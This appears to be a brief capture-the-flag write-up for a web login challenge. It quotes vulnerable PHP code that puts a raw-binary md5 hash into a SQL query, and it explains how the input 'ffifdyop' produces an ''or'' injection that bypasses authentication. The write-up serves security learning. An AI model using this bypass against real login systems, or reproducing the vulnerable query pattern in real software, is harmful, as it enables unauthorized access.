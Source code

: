 # 实验吧
## 后台登录
address: http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php
<!-- $password=$_POST['password'];
	$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
	$result=mysqli_query($link,$sql);
		if(mysqli_num_rows($result)>0){
			echo 'flag is :'.$flag;
		}
		else{
			echo '密码错误!';
		} -->
SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'
SQLi can be done if we submit ffifdyop.
Because when the second parameter of md5(,) is true, it returns a raw binary type which can be read as characters.
If we input like ffifdyop, the sql request is SELECT * FROM admin WHERE username = 'admin' and password = ''or'<trash>'
trash is a none-zero value , SQLi.

